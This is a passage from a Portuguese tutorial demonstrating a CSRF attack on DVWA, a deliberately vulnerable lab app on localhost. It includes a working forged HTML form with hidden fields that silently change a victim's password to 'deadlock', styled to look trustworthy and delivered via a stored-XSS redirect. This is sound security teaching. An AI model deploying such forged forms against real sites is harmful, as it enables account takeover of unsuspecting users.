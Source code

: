     <input type="password" AUTOCOMPLETE="off" name="password_new"><br />
    
    Confirm new password:<br />
    
    <input type="password" AUTOCOMPLETE="off" name="password_conf"><br />
    
    <br />
    
    <input type="submit" value="Change" name="Change">
    
    </form>

Façamos algumas pequenas modificações:

    <body>
    <style type="text/css">
        body {
      background-color: orange;
    }
        form {
            text-align: center;
        }
    </style>
    <form action="http://localhost/dvwa/vulnerabilities/csrf/?" method="GET">
                <h1>Clique aqui para continuar</h1>
                <input type="hidden" AUTOCOMPLETE="off" name="password_new" value="deadlock">
                <input type="hidden" AUTOCOMPLETE="off" name="password_conf" value="deadlock">
                <input type="submit" value="continuar" name="Change">
    
            </form>
    </body>

* _modificada a aparência para não parecer tão estranha assim para o usuário X ( O que não funcionou muito )_
* _na action do formulário, é passada a url responsável por fazer a redefinição de senha após receber os parâmetros via **GET**_
* _Os tipos de campos de senha foram alterados para **hidden**, assim, nada além do botão de ação será exibido/necessário para realizar nosso ataque._
* _Os valores de campos foram alterados para *deadlock* assim, nada precisa ser digitado, pois a redefinição possui seu padrão._

_A página:_

![csrf](https://i.imgur.com/YEf3Sb0.png)


_Ao enviarmos o código de redirecionamento com *XSS stored* para a página exemplo, somos redirecionados à nossa tela laranja totalmente confiável._

_Ao clicarmos no botão 200% confiável:_

![enter image description here](https://i.imgur.com/sIMX6wx.png)
 
 _A lógica de redefinição de senha, neste caso, parte da mesma de requisitar uma redefinição de senha por e-mail em uma plataforma qualquer. A plataforma qual solicitada, na maioria das vezes, envia um link que leva o usuário diretamente à uma página para por suas novas credenciais. O que fazemos é, após ter acesso à esse link que leva à troca de credenciais, criar uma falsa requisição de página, levando o usuário à fazer modificações que sequer requisitou, utilizando da herança de identidade e privilégios._
 
---